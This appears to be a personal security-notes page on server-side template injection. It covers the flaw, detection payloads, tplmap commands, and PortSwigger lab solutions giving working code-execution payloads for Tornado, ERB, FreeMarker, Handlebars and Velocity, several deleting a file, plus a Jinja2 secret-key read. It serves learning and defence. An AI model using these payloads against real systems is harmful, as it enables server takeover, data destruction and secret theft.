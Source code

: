 ```yaml
---
title: "Server Side Templete Injection"
tags:
    - WEB
    - ssti
date: "2024-08-6"
thumbnail: "/assets/img/thumbnail/ssti.jpg"
bookmark: true
---
```

# Description
---
some web application use template to enable dynamic content generation in pages 
Attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.
attacks depending on the template engine in question and how exactly the application uses it.
# impact
---
- remote code execution,
- taking full control of the back-end server
- read access to sensitive data and arbitrary files on the server.
---
**Not vulnerable to server-side template injection:**
because the user's first name is merely passed into the template as data.
```python
 $output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );
```
**Vulnerable to server-side template injection:**
```python
`$output = $twig->render("Dear " . $_GET['name']);`
```
**Server-side template injection attack**
<img src="/assets/img/ssti/1.png">
<img src="/assets/img/ssti/2.png">
For example, the payload `{{7*'7'}}`returns `49`in Twig and `7777777` in Jinja2

**Basic template syntax**
```python
<%
    import os
    x=os.popen('id').read()
%>
    ${x}
```
**To get Template type:**
1- make error to get it like abuse syntax
2- trying 
```bash
`{{7*7}}`
`${7*7}`
`${{7*7}}`
`#{7*7}`
`*{7*7}`
`${{<%[%'"}}%\`
```
**Tools**
1- The basic syntax for tplmap is different depending on whether you're using get or post
 GET ->  tplmap -u url/?vulnparam 

 POST-> tplmap -u url -d vulnparam 
```bash
./tplmap.py -u http://0.0.0.0:5000/ -d ‘name’
./tplmap.py -u http://0.0.0.0:5000/ -d ‘name’ --os-cmd “id”
```
**Explore**
Many template engines expose a "`self`" or "`environment`" object of some kind, which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine.
Some objects because they are especially likely to contain sensitive information or exploitable methods.
For example, in Java-based templating languages, you can sometimes 
list all variables in the environment using the following injection:
```java
${T(java.lang.System).getenv()}
```
**Exploit using an object chain (way to bypass sandbox)**
Chaining together the right objects and methods sometimes allows you to gain access to dangerous functionality and sensitive data that initially appears out of reach.
For example, in the Java-based template engine Velocity, you have access to a `ClassTool` object called `$class`. Studying the documentation reveals that you can chain the `$class.inspect()` method and `$class.type`property to obtain references to arbitrary objects. In the past, this 
has been exploited to execute shell commands on the target system as 
follows:
```java
$class.inspect("java.lang.Runtime").type.getRuntime().exec("bad-stuff-here")
```
# Portswigger Scenarios 
---
**1- Tornado (Python)**
make error to know the template type
code:
<img src="/assets/img/ssti/3.png">
payload:

```python
user.name}}{%25+import+os+%25}{{os.system('rm%20/home/carlos/morale.txt')
```
**2- ERB (Ruby)**
tried `<%= 7*7 %> = 49` to know template type
```rb
<%= system("rm /home/carlos/morale.txt") %>
```
**3- FreeMarker (Java)**
Make error with ${ testing } to know the template type
```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
```
**4- Handlebars (NodeJS)**
make error with payloads to know the template type
payloads:
```bash
`{{7*7}}`
`${7*7}`
`<%= 7*7 %>`
`${{7*7}}`
`#{7*7}`
`*{7*7}`
```
we have to url encode it to able to put it in parameter (message)
```js
wrtz{{#with "s" as |string|}}
    {{#with "e"}}
        {{#with split as |conslist|}}
            {{this.pop}}
            {{this.push (lookup string.sub "constructor")}}
            {{this.pop}}
            {{#with string.split as |codelist|}}
                {{this.pop}}
                {{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}}
                {{this.pop}}
                {{#each conslist}}
                    {{#with (string.sub.apply 0 codelist)}}
                        {{this}}
                    {{/with}}
                {{/each}}
            {{/with}}
        {{/with}}
    {{/with}}
{{/with}}
```
**5- Jinja2 (Python)**

after we knew we using python so we tried `{% debug %}` it debug all objects , one of them was `settings` so we tried {{settings.SECRET_KEY}}

settings is object 

SECRET_KEY is method

**6- FreeMarker (Java) Bypass sandbox**

Make error with ${ testing } to know the template type

```bash
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```

but we notice article isn’t object in this website so we have to change it to right one

# Mitigation

- never allow users to modify or create templates.
- use of regex, white lists of authorised expressions.
- Sandboxing that creates a safe, isolated environment for users. but sandbox environments are difficult to set up and can be bypassed
  by misconfiguration or oversights.
---

Reference 4 all exploits [https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection]


